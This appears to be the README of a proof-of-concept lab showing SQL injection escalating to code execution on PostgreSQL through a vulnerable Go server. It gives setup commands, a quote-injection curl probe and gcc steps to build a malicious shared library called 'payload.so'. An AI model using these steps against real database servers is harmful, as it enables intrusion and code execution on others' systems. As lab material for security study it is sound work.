 ### Setting up the server
1. Install the Postgresql Docker container
```
docker run --name poc-postgres-sqli-rce -p 5432:5432 -e POSTGRES_PASSWORD=mysecretpassword -d postgres
```
2. Clone the repo and run this Go module
```
git clone https://github.com/adeadfed/psql-golang-rce-poc
cd psql-golang-rce-poc/go_server
go run poc
```

### SQLi PoC
```
curl http://localhost:8000/phrases?id=1'
```

### Compiling the shared library
1. Install correct dev dependencies for the major version of the vulnerable PSQL server
```
sudo apt install postgresql-13 postgresql-server-dev-13 -y 
```
2. Compile the lib with gcc
```
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```
